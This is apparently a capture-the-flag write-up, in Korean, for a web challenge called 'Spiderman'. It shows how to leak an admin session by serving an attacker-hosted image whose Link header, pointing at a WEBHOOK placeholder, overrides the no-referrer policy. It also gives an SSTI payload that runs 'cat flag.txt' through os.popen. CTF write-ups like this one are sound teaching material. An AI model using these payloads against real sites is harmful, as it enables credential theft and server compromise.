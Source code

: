 # Spiderman

# Usage

-

# Concept

- [Referrer-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Referrer-Policy)
- SSTI

# Writeup

1. Leak admin credential

```jinja
<script>
    let DEFAUL_IMG_URL;
    {% if user.image_url %}
    DEFAUL_IMG_URL = "{{ user.image_url }}";
    {% else %}
    DEFAUL_IMG_URL = "/static/image/spiderman.jpg";
    {% endif %}
</script>
<script src="/static/js/profile.js"></script>
```

`user.image_url`을 DEFAULT_IMG_URL로 설정해줍니다.

```
// profile.js
const imageDisplay = document.getElementById('imageDisplay');
const urlSearch = new URLSearchParams(location.search);
const imgPath = urlSearch.get('imageDisplay') ?? DEFAUL_IMG_URL;
const imgSrc = new URL(imgPath, location.origin);
imageDisplay.src = imgSrc;
```

`imgSrc`를 `new URL(imgPath, location.origin)`으로 가져옵니다.

base가 설정되어있지만 imgPath를 `//example.com`과 같이하여 임의의 이미지를 로딩할 수 있습니다.

credential은 파라미터에 `?session={}`으로 존재합니다.

```py
response.headers['Referrer-Policy'] = 'no-referrer'
```

app.py를 보면 Referrer-Policy가 no-referrer로 설정되어 있기 때문에 우회가 필요합니다.

5월 6일에 `slonser`가 X에 이를 우회하는 잘 알려지지 않은 방법을 포스팅했습니다.

https://x.com/slonser_/status/1919439377295413485

[mdn - Link](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Link)

```
Link: <uri-reference>; param1=value1; param2="value2"
```

```
Link: <WEBHOOK>; rel="preload"; as="image"; referrerpolicy="unsafe-url"
```

이미지에서 response에 Link header를 설정하여 위와 같이 credential을 유출시킬 수 있습니다.

2. SSTI

```
ssti={user.hash_password.__doc__[13]}{user.hash_password.__doc__[13]}7*7{user.hash_password.__doc__[30]}{user.hash_password.__doc__[30]}
```

```py
@staticmethod
def hash_password(password):
    """
        {{super mega hash}}
    """
    return hashlib.sha256(password.encode()).hexdigest()
```

**doc**로 들어가게 되어서 로직상 아래와 같이 SSTI를 일으킬 수 있습니다.

```
ssti={user.hash_password.__doc__[13]}{user.hash_password.__doc__[13]}request.application.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read(){user.hash_password.__doc__[30]}{user.hash_password.__doc__[30]}
```
